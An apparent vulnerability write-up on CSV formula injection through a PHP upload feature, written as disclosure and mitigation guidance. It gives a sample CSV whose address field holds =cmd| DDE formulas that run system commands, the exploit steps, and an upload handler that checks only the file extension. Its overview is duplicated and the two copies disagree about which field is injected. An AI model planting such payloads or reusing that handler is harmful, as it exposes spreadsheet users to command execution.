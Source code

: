 # CSV File Injection Vulnerability

## Overview

This document describes a CSV file injection vulnerability discovered in our web application. The vulnerability was triggered due to the lack of validation on CSV files, allowing an attacker to inject malicious formulas through the "description" field.

# CSV File Injection Vulnerability

## Overview

This document provides details about a CSV file injection vulnerability discovered in our web application's file upload feature. The vulnerability allowed attackers to inject and execute malicious commands through the CSV file's "address" field.

## Vulnerability Description

### Upload Feature

The upload functionality was handled by the `upload.php` file located in server.


This file processed CSV uploads without proper validation, particularly on the "address" field, which allowed command injection.

### Payload Example

Here is an example of a malicious `Payload.csv` file that could be uploaded to exploit the vulnerability:

```csv
student name,father name,address
Emma Brown,Chris Doe,"=cmd|'systeminfo'"
Noah Davis,Andy Smith,"=cmd|'whoami'"
Liam Wilson,Joseph Lee,"=cmd|'ipconfig'"
Olivia Martin,Samuel Hall,"=cmd|'netstat'"
Ava White,David Johnson,"=cmd|'dir'"
Mia Harris,Ethan Clark,"=cmd|'dir /B'"
James Anderson,Kevin Lee,"=cmd|'tasklist'"
Benjamin Carter,Daniel Hill,"=cmd|'echo Custom message from server > log.txt'"
```
In this example, the `address` field contains commands that will execute when the CSV file is opened in a spreadsheet application like Excel.

## Exploit
### Steps to Exploit
1. **Crafting the Malicious CSV:**

- The attacker prepares a CSV file with malicious formulas in the "address" field.
- The crafted file `Payload.csv` looks like the example above.

2. **Uploading the CSV File:**

- The attacker uploads `Payload.csv` via the vulnerable upload interface provided by `upload.php`.

3. Triggering the Vulnerability:

- When a user opens the uploaded CSV file in a spreadsheet application, the formulas in the "address" field execute, potentially compromising the user's system.

## Code Reference: `upload.php`
The upload.php file contained the following logic for handling file uploads:
```php
<?php
$target_dir = "uploads/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
$imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));

// Check if file is a valid CSV
if($imageFileType != "csv") {
    echo "Sorry, only CSV files are allowed.";
    exit;
}

// Attempt to upload file
if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
    echo "The file ". basename($_FILES["fileToUpload"]["name"]). " has been uploaded.";
} else {
    echo "Sorry, there was an error uploading your file.";
}
?>
```

## Mitigation Strategies
To mitigate this vulnerability, the following steps should be taken:

1. Enhanced Field Validation:

- Ensure that the CSV file not only contains the required fields but also validates the content of these fields to prevent formula injection.
2. Sanitize Input:

- Sanitize and escape any user input that could be interpreted as a formula by spreadsheet applications.
3. Secure Parsing Libraries:

- Utilize secure libraries that handle CSV parsing and prevent execution of dangerous content.

## Conclusion
CSV file injection is a serious vulnerability that can lead to remote code execution when exploited. By implementing proper validation and sanitization measures, such vulnerabilities can be effectively mitigated, ensuring the security of the application.

## Further Reading
- [OWASP CSV Injection](https://owasp.org/www-community/attacks/CSV_Injection)
- [CSV Injection](https://medium.com/@president-xd/csv-injection-vulnerability-formula-injection-2db8cbd8aa67?source=user_profile---------0----------------------------)
